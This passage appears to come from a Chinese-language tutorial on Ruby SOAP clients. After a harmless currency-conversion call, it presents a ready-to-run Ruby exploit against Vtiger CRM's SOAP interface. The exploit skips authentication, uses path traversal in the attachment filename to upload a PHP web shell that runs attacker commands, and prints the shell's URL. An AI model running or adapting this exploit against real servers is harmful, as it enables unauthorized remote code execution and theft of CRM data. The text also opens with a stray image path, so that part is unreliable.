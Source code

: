 结果

```
>> message = {'FromCurrency' => 'EUR', 'ToCurrency' => 'CAD'}
=> {"FromCurrency"=>"EUR", "ToCurrency"=>"CAD"}
>> response = client.call(:conversion_rate, message: message).body
=> {:conversion_rate_response=>{:conversion_rate_result=>"1.4417", :@xmlns=>"http://www.webserviceX.NET/"}}

1.4415 
```

#### 通过SOAP漏洞进行黑客攻击

这是一个针对Vtiger CRM SOAP的工作利用，从绕过认证到上传shell

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client
client = Savon::Client.new(wsdl: url)

# List all available operations
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment,
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING",
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id" 
```
